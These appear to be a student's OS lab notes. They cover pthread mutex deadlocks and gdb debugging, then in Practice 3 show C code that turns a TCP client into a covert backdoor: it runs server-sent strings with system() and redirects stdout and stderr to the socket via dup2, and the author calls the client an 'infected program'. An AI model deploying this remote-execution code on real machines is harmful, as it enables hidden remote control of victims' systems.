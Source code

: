 #lab 2

## Practise 1

> What is a barrier in this context?!?!?

The code is not a perfect lock, the first thread can finish the execution before
if the second is slower.
This will result in a lock for this program, but not for both threads.

Solution:

* Just added a sleep in the threads to sync them up

```
pthread_mutex_lock(&mtx[*param]);
sleep(1);
pthread_mutex_lock(&mtx[1-*param]);
```

## Practice 2

Compile:

```
gcc -O0 -g -o main deadlock.c -pthread
```

Flags:

* `-O0` is "optimisation level 0"
* `-g` (no sure) the symbols for debugger/debugging

Run the program with the debugger:

```
gdb ./main
```

Start the execution with the `gdb` command:

```
run
```

Use ^C (Ctrl + C) to stop the program, it will get stuck in a deadlock

`info thread` will give ass information about threads:

```
(gdb) info thread
  Id   Target Id                               Frame
* 1    Thread 0x7ffff7dca740 (LWP 4852) "main" 0x00007ffff7f97495 in __GI___pthread_timedjoin_ex (threadid=140737351816960, thread_return=0x0, abstime=0x0, block=<optimized out>)
    at pthread_join_common.c:89
  2    Thread 0x7ffff7dc9700 (LWP 4853) "main" __lll_lock_wait ()
    at ../sysdeps/unix/sysv/linux/x86_64/lowlevellock.S:103
  3    Thread 0x7ffff75c8700 (LWP 4854) "main" __lll_lock_wait ()
    at ../sysdeps/unix/sysv/linux/x86_64/lowlevellock.S:103
```

The `*`(start) indicate the current thread, the main thread, which is waiting
on `pthread_join()` function for the other threads.
The other threads are stuck in a`_lll_lock_wait()`

Using `thread <ID>` command can switch the context to another thread.

```
(gdb) thread 2
[Switching to thread 2 (Thread 0x7ffff7dc9700 (LWP 4853))]
#0  __lll_lock_wait () at ../sysdeps/unix/sysv/linux/x86_64/lowlevellock.S:103
103     ../sysdeps/unix/sysv/linux/x86_64/lowlevellock.S: No such file or directory.
```

Now `info stack` will give information about the stack...

```
(gdb) info stack
#0  __lll_lock_wait () at ../sysdeps/unix/sysv/linux/x86_64/lowlevellock.S:103
#1  0x00007ffff7f98714 in __GI___pthread_mutex_lock (mutex=0x5555555580a8 <mtx+40>)
    at ../nptl/pthread_mutex_lock.c:80
#2  0x00005555555551fe in ThrFunc (p=0x7fffffffe06c) at deadlock.c:14
#3  0x00007ffff7f95fa3 in start_thread (arg=<optimized out>) at pthread_create.c:486
#4  0x00007ffff7ec64cf in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:95
```

## Practice 3

Compile the library and the main program:

```
gcc library.c -shared -fPIC -o library.so
gcc main.c -o main -ldl
```

In the `client-server` folder are some programs for a tcp server and a client
that are exchanging simple messages.

As a **experimented modern programer** I'll just copy the code for the client
and modify it to execute the messages from server:

```
	bzero(buff, sizeof(buff)); 
	strcpy(buff, "empty\n");
	write(sockfd, buff, sizeof(buff)); 
    for (;;) { 
        bzero(buff, sizeof(buff)); 
        read(sockfd, buff, sizeof(buff)); 
        if ((strncmp(buff, "exit", 4)) == 0) { 
            printf("Client Exit...\n"); 
            break; 
        } 
		system(buff);
    } 
```

A little trick with file descriptors on linux allow for easy redirecting the output
to the server. So when we send `ls` from server the output will came back to server
and will not be displayed on the "client"/"infected program"

`dup2` will do the job perfectly. Here we save the `sdtout` file descriptor to
set it back later and redirect `stdout` ( fd = 1 ) and `stderr` ( fd = 2 ) to
`sockfd` (server).

```
	// save the stdout for later
	if(dup2(fileno(stdout), old_stdout) == -1) {
		perror("dup2 save stdout");
		exit(1);
	}

	// replace stdout wit sockfd
	if(dup2(sockfd, 1) == -1) {
		perror("dup2 sockfd");
		exit(1);
	}
	// replace stderr with sockfd
	if(dup2(sockfd, 2) == -1) {
		perror("dup2 sockfd");
		exit(1);
	}
```

Now will set the `stdout` and `stderr` back:

```
	// put stdout back and hope nobady observed
	if(dup2(old_stdout, 1) == -1) {
		perror("dup2 set back stdout");
		exit(1);
	}
	if(dup2(old_stderr, 2) == -1) {
		perror("dup2 set back stderr");
		exit(1);
	}
	printf("stdout back to normal\n");
	fprintf(stderr, "stderr back to normal\n");
```
